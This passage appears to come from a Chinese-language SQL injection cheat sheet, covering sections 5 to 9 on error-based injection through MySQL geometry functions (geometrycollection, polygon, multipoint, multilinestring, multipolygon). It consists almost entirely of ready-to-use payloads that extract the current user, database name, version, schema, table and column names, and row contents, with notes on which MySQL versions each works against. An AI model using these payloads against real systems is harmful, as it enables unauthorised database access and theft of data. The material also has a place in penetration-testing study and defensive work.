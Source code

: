 #### 5. geometrycollection报错注入

目前测试在MySQL5.1、5.5版本中可以报错user()执行结果，5.0、5.7、8.0都不行。

```
# 获取基础信息
id=1' and geometrycollection((select * from(select * from(select user())a)b)) -- -
id=1' and geometrycollection((select * from(select * from(select database())a)b)) -- -
id=1' and geometrycollection((select * from(select * from(select version())a)b)) -- -

# 获取一个库名
id=1' and geometrycollection((select * from(select * from(select concat(0x7e, (select schema_name),0x7e) FROM information_schema.schemata limit 0,1)a)b)) -- -

# 获取一个表名
id=1' and geometrycollection((select * from(select * from(select concat(0x7e, (select table_name),0x7e) FROM information_schema.tables where table_schema='[库名]' limit 0,1)a)b)) -- -

# 获取一个列名
id=1' and geometrycollection((select * from(select * from(select concat(0x7e, (select column_name),0x7e) FROM information_schema.columns where table_name='[表名]' limit 0, 1)a)b)) -- -

# 获取一行数据
id=1' and geometrycollection((select * from(select * from(select concat(0x7e, (select concat([字段1],0x3a,[字段2])),0x7e) FROM [库名].[表名] limit 0,1)a)b)) -- -
```

#### 6. polygon报错注入

同GeometryCollection报错注入。

```
id=1' and polygon((select * from(select * from(select user())a)b)) -- -
```

#### 7. multipoint报错注入

同GeometryCollection报错注入。

```
id=1' and multipoint((select * from (select * from(select user())a)b)) -- -
```

#### 8. multilinestring报错注入

同GeometryCollection报错注入。

```
id=1' and multilinestring((select * from (select * from(select user())a)b)) -- -
```

#### 9. multipolygon报错注入

同GeometryCollection报错注入。

```
id=1' and multipolygon((select * from (select * from(select user())a)b)) -- -
```
